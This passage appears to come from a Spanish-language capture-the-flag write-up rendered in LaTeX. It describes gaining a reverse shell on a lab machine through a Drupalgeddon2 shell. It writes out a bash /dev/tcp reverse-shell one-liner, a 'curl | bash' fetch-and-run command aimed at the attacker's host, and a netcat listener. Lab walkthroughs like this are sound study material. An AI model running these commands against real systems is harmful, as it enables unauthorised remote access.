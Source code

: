 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ErrorTok}[1]{\textcolor[rgb]{0.64,0.00,0.00}{\textbf{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un archivo \emph{index.html} que contiene

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{#!/bin/bash}

\NormalTok{bash -i >}\ErrorTok{&}\NormalTok{ /dev/tcp/10.10.14.20/443 0>}\ErrorTok{&}\NormalTok{1}
\end{Highlighting}
\end{Shaded}
\item
  Compartimos un servidor web con \emph{python}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  En la drupalgeddon2 shell

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s 10.10.14.20 }\KeywordTok{|} \FunctionTok{bash}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

ya esta\ldots{}

\hypertarget{tratamiento-de-la-tty-2}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-2}}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\end{Highlighting}
\end{Shaded}

En este caso no nos va el tratamiento de la \textbf{TTY}. En este caso lo que hacemos es utilizar el \texttt{rlwrap\ nc\ -nlvp\ 443}

\hypertarget{investigamos-la-maquina-1}{%
\subsection*{Investigamos la maquina}\label{investigamos-la-maquina-1}}
\end{document}
